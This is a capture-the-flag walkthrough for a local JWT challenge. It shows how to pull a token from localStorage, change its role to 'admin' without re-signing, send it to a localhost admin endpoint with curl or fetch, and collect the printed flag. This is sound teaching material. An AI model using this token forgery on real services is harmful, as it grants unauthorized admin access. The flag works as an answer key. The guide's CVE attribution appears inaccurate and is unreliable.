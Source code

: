 **HOW TO SOLVE: TOKEN OF DECEIT**

1. Sign up\n
  •	Create an account to be automatically assigned the "user" role.

2. Login
  •	After account creation, you’ll be redirected to the login page.
  •	Use the same credentials to log in.
  •	Upon successful login, the server generates and sends a JWT.

3. Decode the JWT without verifying the signature
  a. Open the console:
    •	On MacOS, press (Option + Command + J).
    •	On Windows, press (Ctrl + Shift + J).
  b. You’ll see the following message: **GET http://localhost:3000/admin 403 (Forbidden)**
  c. Run the following command in the console to get the token:

     **localStorage.getItem('token');**
   
    •	You’ll see a token with three parts, each separated by a period (.).
  d. The token role will be "user" as per your credentials.
  e. Visit jwt.io and paste the JWT into the "Encoded" field to view the decoded payload.

4. Manipulate the JWT Payload
  a. Change the role to "admin".

    For example:
    {
      "username": "isabella",
      **"role": "admin",**
      "iat": 1738901843,
      "exp": 1738905443
    }
  b. No need to re-sign the token, as the program has a vulnerability that does not verify the signature.
  c. Your JWT is now modified.

5. Send the Manipulated JWT to the Server (2 ways)
You can use one of the following methods to send the modified JWT to the server:

a. Using cURL (command line):
  •	Open your terminal and type:
  
    curl -H "Authorization: Bearer MANIPULATED-JWT" http://localhost:3000/admin

b. Using the Browser Console:
  •	Run this JavaScript:
  
    fetch("http://localhost:3000/admin", {
        method: "GET",
        headers: {
            "Authorization": "Bearer MANIPULATED-JWT"
        }
    })
    .then(response => response.json())
    .then(data => console.log(data))
    .catch(error => console.error("Error:", error));

6. Access the Admin Endpoint and Retrieve the Flag
a. The server will decode the manipulated token and grant admin access.
b. The server will respond with the flag:

   {"flag":"ATHACKCTF{trust_is_a_vulnerability}"}

**Vulnerability:**
•	CVE-2022-23529 (jsonwebtoken <=8.5.1): The server fails to verify the JWT's signature, allowing the payload to be manipulated without detection.


Ensure that all dependencies required to build or run the solution are provided (e.g., `requirements.txt`) or thoroughly documented.
